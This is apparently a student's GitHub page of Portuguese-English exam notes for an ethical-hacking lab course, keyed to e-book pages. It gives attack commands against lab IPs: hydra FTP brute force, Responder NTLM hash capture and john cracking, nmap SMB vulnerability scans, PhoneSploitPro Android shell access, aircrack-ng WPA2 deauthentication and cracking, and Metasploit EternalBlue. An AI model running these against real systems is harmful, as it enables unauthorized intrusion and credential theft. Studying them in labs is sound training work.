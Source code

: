 Questões do Ilabguide / bookshelf
Atividades e Anotações Importantes para prova.


## 01 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/1842

“Attempt FTP login on target IP 10.10.1.11 with hydra using usernames and passwords from wordlists” The output of this prompt results in the following command:
hydra -L/usr/share/wordlists/ftp-usernames.txt -p /usr/share/wordlists/ftp-passwords.txt ftp://10.10.1.11


## 02 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4363
moviescoope:

GET da aplicacao moviescope.com pegando data de niver do usuario john
view profile:



## 03 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4499
The Login page appears; log in into the website using the retrieved credentials john/qwerty. 


## 04 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4570
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4578
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4580
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4581

MQTT Obs: Como encontrar o pacote, tamanho da mensagem MQTT é flag.  


Port 1883 is the default MQTT port; 1883 is defined by IANA as MQTT over TCP.
usar wireshark:

Type mqtt under the filter field and press Enter. To display only the MQTT protocol packets.
. Select any Publish Message packet from the Packet List pane. In the Packet Details pane at the middle of the window, expand the Transmission Control Protocol, MQ Telemetry Transport Protocol, and Header Flags nodes.
50. Under the MQ Telemetry Transport Protocol nodes, you can observe details such as Msg Len, Topic Length, Topic, and Message.
51. Publish Message can be used to obtain the message sent by the MQTT client to the broker.


## 05 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/641
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/644
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/651
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/654
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/657
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/668 ***
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/675 *** batman <kkkkkkkkkk>

NTLM: pwdump7 / Responder
Responder -I eth0
cd /usr/share/responder/logs
copiar toda hash ate nome do usuario.
vi hash.txt
john hash.txt ----wordlist=
john –-rules --wordlist=</path_to/output_wordlist.txt> format=NT /path/to/ntlm_hashes.txt 
-- show pra ver..


## 06 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/540
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/541

locate *.NSE | grepe SMB-
nmap -sV <targ> --script=smb-vuln
nmap -p 139 –-script smb-protocols <Target IP>


## 07 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/2661
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4538
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4544

nmap -sV -p 5555 <targ> --open
nmap -sn -PE 10.10.10.0/24

cd PhoneSploitpro
python3 PhoneSploitpro.py

1: Connect a Device <targ>
14: Acess Device Shell 

pwd
sdcard
ls
/sdcard/Download/images.jpeg
 Type exit and press Enter
8: Download File/Folder from Device

## 09 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4526
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4531   ****
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4532


 aireplay-ng -0 11 -a 22:7F:AC:6D:E6:8B -c EE:AB:46:A7:CF:18 wlx00e02d886189 and press Enter.
 aircrack-ng -a2 22:7F:AC:6D:E6:8B -w password.txt 

 aircrack-ng -w dicionario.txt pacotescapturados.pcap



## 10 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/3996
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4096
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4150
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4154



ms17-010 - eternal blue
msfconsole
exploit/windows/smb/ms17_010_eternalblue

## 11 


veracrypt





